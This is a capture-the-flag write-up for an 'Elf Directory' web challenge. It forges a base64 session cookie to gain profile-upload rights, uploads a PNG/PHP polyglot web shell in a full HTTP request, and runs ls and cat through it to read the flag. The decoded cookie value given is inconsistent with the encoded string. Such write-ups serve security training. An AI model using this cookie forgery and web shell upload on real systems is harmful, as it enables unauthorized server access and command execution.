 
## Description
Can you infiltrate the Elf Directory to get a foothold inside Santa's data warehouse in the North Pole?

## Website



## Solution

Login page
<img width="1046" alt="image" src="https://user-images.githubusercontent.com/18641572/144716746-eec531e4-65f5-47be-a8b8-d8bf2e7f08e9.png">

Register any user & log in
<img width="1054" alt="image" src="https://user-images.githubusercontent.com/18641572/144716773-174267df-e6bc-44a4-b852-dbab138a3d24.png">

Then add yourself possibility to edit your profile:

Decrypt Cookie PHPSESSID (urldecode + base64 decode):

`eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZWQiOnRydWV9` -> `{"username":"admin","approved":false}`

Change to  `{"username":"admin","approved":true}`

Then you have possibility to upload PNG picture for your profile. But it is carefully checked
with PNG file structure (not only magic number, but first bytes), but extension is not checked.
So we could use this upload possiblity to upload .php file

Use upload avatar png picture functionality to get web shell (e.g via Burp Suite)
```
POST /upload HTTP/1.1
Host: 46.101.92.47:30397
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------385168380317616655742649190565
Content-Length: 329
Origin: http://46.101.92.47:30397
DNT: 1
Connection: close
Referer: http://46.101.92.47:30397/
Cookie: PHPSESSID=eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZWQiOnRydWV9
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

-----------------------------385168380317616655742649190565
Content-Disposition: form-data; name="uploadFile"; filename="alpha_2px.php"
Content-Type: image/png

PNG


IHDRÄ
IDATxc6ÐÝIEND®B`
<?php system($_GET['cmd']); ?>
-----------------------------385168380317616655742649190565--
```


Going to
`http://46.101.92.47:30397/uploads/5c770_alpha_2px.php?cmd=ls%20/`

we could see among other files file
`flag_65890d927c37c33.txt`


Then we read it
```
http://46.101.92.47:30397/uploads/5c770_alpha_2px.php?cmd=cat%20/flag_65890d927c37c33.txt

�PNG  IHDRĉ IDATxc6Ј�IEND�B`� HTB{br4k3_au7hs_g3t_5h3lls} 
```
